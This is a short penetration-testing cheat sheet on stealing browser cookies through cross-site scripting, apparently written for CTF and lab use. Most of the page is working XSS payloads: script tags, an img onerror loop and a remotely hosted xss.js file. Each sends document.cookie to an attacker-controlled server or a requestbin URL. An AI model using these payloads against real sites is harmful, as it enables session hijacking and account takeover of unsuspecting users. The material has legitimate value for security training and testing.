 # Stealing Cookies

Stealing cookies to obtain privileges is the fever dream of hackers looking to exploit cross-site scripting vulnerabilities.&#x20;

### Payloads

#### Verification with alert()

This payload will pop an `alert()` box prior to sending the cookie. This can be usefuil for testing a cross-site scripting payload and verifying that it is grabbing the intended information. Once the `alert()` box closes, the cookie will be sent to the arbitrary server:

```javascript
<script>
alert(document.cookie);
var i=new Image;
i.src="http://172.0.0.1:1337/?"+document.cookie;
</script>
```

#### Exfiltrating cookies without alert()

After verifying that the parameter is susceptible to cross-site scripting, we can leverage the following payload to exfiltrate cookies silently:

```javascript
<script>var i=new Image;i.src="http://172.0.0.1:1337/?"+document.cookie;</script>
```

#### CTF Only Payload

The following payload leverages the `img` tag rather then `script` and will call `onerror()` in a loop, ultimately filling up your server with cookies. I have found this can be life-saving in a CTF when things may not be working as the author originally intended:

```javascript
<img src=x onerror=this.src='http://172.0.0.1:1337/?'+document.cookie;>
```

#### My Preferred Method

The way that I like to go about capturing cookies is submitting the following payload, calling back to a JavaScript file that I am host on a Python web server:

```javascript
<script src="http://172.0.0.1/xss.js"></script>
"><script src=http://172.0.0.1/xss.js></script>
```

The `xss.js` file looks like the following, ultimately it is doing the same as the above payloads by grabbing and sending the cookies to my hosted web server:

```javascript
function pwn() {
    var img = document.createElement("img");
    img.src = "http://172.0.0.1/xss?=" + document.cookie;
    document.body.appendChild(img);
}
pwn();
```

### Capturing the Cookies

Unless you're in a CTF environment, I would highly recommend capturing the cookies on a local web server or controlled Burp collaborator instance. I'm not sure about you, but sending cookies to a random website seems like a bad idea to me. That being said, there are sites that exist such as `requestbin` to send the request to:

```javascript
http://172.0.0.1:1337/<script>new Image().src="http://requestbin.net/r/mybin?c="+document.cookie;</script>
```

### References

{% embed url="https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md" %}

{% embed url="https://snowscan.io/htb-writeup-bankrobber/" %}
